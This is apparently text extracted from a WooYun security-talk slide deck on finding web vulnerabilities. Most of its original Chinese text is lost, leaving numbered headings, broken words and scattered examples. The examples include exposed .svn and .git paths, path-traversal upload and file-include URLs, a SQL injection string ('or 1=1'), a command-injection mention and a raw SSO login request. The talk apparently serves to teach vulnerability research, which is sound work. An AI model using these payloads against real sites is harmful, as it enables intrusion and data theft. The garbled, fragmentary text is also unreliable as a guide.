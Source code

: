 
Valo@wooyun

01 ""
svn: xxx.xxx.com/.svn/entries

01 ""
git: xxx.xxx.com/.git/config

01 ""
github

01 ""
github







VPN







50/180

02 Rsync
nfs

03 


04 

05 ""

06 ""

06 ""
http://xxxxx.com/feedBack/addSuggest.php?mod=addSuggest&suggestBelonged =,1,aaa&suggestType=,1,&suggestDescrib=test&contactTel=test&contactEmail=t est&contactQQ=111&contactPerson=test&attachValue=../2014/testinfo.html._7.jp g Warning: rename(/mnt/mfsxxxx/feedBack/../2014/testinfo.html._7.jpg,/mnt/mfs/xxxx/feedBa ck/../2014/2014111801267-1.html): No such file or directory in /apps/dat/web/newcode/xxxx-239/library/App/FeedBack/Suggest.php on line 257

06 ""
http://xxcom/vendor/goodsAdd.php?mod=showTem plate&template=3c/../../../../../../../../../../../../../../../../m nt/mfs/xxxx/2014/2014111801266-1

07 ""2
https://www.xxxxxxx.com/guarantee 
js/admin.js function delImg(_this){
var pic = $(_this).attr("rel");
$.post("/app/uploadimage?act=delimg",{image:pic},functi on(data){
if(data.status=='200'){ alert(data.msg); $(_this).closest('.showimg').find('img').attr('src',
'/img/x_tu.jpg'); // $(_this).remove(); //
}else{ alert('xxxxx');
} },'json'); }

08 ""3

08 ""3

09 ""

10 

11 ""

12 SQL

13 SQL
http://xxxxcom/index.php?action=user&method=search&pos_belong=2 &pos_city=0&pos_type=0&keywords=a\%27%20or%201=1%20limit%2 00,10%23
 keywords  replace ' ''  \'  \'' 

14 ""

15 "shell"

16 ""
scitdlocalhost31415 bugreport a_test-count, command injectiondebug  

17 ""

18 -""
POST /network/SsoLogonAction.do HTTP/1.1 Hostxxxxx.com.cn Connection: keep-alive Content-Length: 145 Cache-Control: max-age=0 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
method=logon&checktrade=0&directPath=&needGetPassWord=0&logonT ype=1&ssoLoginFlag=0&identityType=0&identityNo=6422xxxxx01080813 &returnUrl=&novc=y



Good Job

THANKS

